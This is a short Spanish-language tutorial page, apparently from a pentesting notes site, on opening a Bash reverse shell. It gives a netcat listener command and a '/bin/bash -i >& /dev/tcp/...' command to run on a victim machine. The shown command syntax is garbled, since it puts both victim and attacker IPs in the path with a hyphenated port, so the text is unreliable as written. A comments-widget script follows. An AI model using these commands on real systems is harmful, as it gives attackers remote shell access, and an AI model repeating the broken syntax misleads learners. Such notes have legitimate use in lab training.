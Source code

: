 # Bash Reverse Shell

Mediante Bash podemos establecer una shell inversa en la que poder utilizar una gran variedad de herramientas.
En primer lugar, antes debemos tener en cuenta que ciertos detalles sobre la Bash Reverse Shell:
* No funcionará en equipos Windows, ya que estos no tienen instalado Bash.
* Tampoco funcinará en sistemas Unix que no tengan Bash instalado, en tal caso, podemos usar `sh`.

Para establecer una reverse shell en bash simplemente nos ponemos en escucha con `NetCat` por el puerto deseado:

    nc -lvnp PUERTO

`Ejemplo:`

    nc -lvnp 443
    
Luego desde el esquipo objetivo ejecutamos el siguiente comando para establecer la reverse shell:

    /bin/bash -i >& /dev/tcp/[Ip Víctima]/[Ip Atacante]-Puerto 0>&1
    
`Ejemplo:`

    /bin/bash -i >& /dev/tcp/10.10.10.10/10.10.14.14-443 0>&1
    
Mediante este comando estamos estableciendo una reverse shell desde el equipo víctima (10.10.10.10) a nuestro equipo (10.10.14.14) por nuestro
puerto 443.

Si todo ha funcionado correctamente veremos como en la terminal donde estábamos en escucha con NetCat se nos abre la reverse shell.


---
---
  
    
<html lang="en">
<head>
  
</head>
<body>

<script src="https://utteranc.es/client.js"
    repo="F1r0x/gestion-comentarios"
    issue-term="pathname"
    theme="github-light"
    crossorigin="anonymous"
    async>
</script>
          
    
  </body>
</html>
  
  
---
---
